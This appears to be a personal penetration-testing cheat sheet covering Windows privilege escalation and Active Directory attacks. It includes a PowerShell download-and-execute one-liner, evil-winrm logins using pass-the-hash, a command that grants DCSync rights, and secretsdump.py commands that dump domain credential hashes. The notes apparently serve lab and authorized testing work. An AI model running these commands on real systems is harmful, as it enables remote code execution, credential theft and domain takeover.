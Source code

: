 # Windows
Everything to check for when trying to become Administrator on windows


# Commands
- `powershell -c get-psdrive -psprovider filesystem` –-> To get drives
- `dir /R` --> To look for hidden data streams (if flag is hidden)
- `iex(new-object net.webclient).downloadstring('URL/FILENAME')` --> Download remote files

# Directories
- C:\Windows\System32\spool\drivers\color
    - To upload files to
- C:\Data\Users\app>
    - Old windows versions
- C:\program files\windowspowershell\modules\packagemanagement
    - Check for any code, policy or password in files


# Tools
## BloodHound / SharpHound
This is used to visualise AD environments and discover attack paths.

### Useful info
- [https://bloodhound.readthedocs.io/en/latest/index.html](https://bloodhound.readthedocs.io/en/latest/index.html)
- [https://github.com/fox-it/BloodHound.py](https://github.com/fox-it/BloodHound.py)
- [https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html](https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html)


## Evil-WinRM
Allows remote login to WinRM *(port 5985)* if credentials are known.

### Usage

```bash
# With password
evil-winrm -i <ip> -u <user> -p <password>

# With Pass The Hash (NTLM)
evil-winrm -i <ip> -u <user> -H <hash>
```

#### References
- [https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)
- [https://www.hackingarticles.in/a-detailed-guide-on-evil-winrm/](https://www.hackingarticles.in/a-detailed-guide-on-evil-winrm/)


## secretsdump.py
Helps to enumerate and dump AD hashes

#### References & link to the tool
- [https://github.com/fortra/impacket/blob/master/examples/secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)
- [https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync](https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync)


# Misconfigurations
## DCSync
DCSync is a technique used to extract credentials from the Domain Controllers.    
In this we mimic a Domain Controller and leverage the (MS-DRSR) protocol and request for replication using GetNCChanges function.

### Add rights in PowerView
```powershell
Add-ObjectACL -PrincipalIdentity <user> -Rights DCSync
```

### Enumeration
**Note: Most of this will be done in PowerView**
```powershell
Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ?{($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ActiveDirectoryRights -match 'WriteDacl')}
```

```bash
secretsdump.py -just-dc <user>:<password>@<ipaddress> -outputfile hashes
```

#### References
- [https://www.alteredsecurity.com/post/a-primer-on-dcsync-attack-and-detection](https://www.alteredsecurity.com/post/a-primer-on-dcsync-attack-and-detection)
- [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync)
- [https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync](https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync)
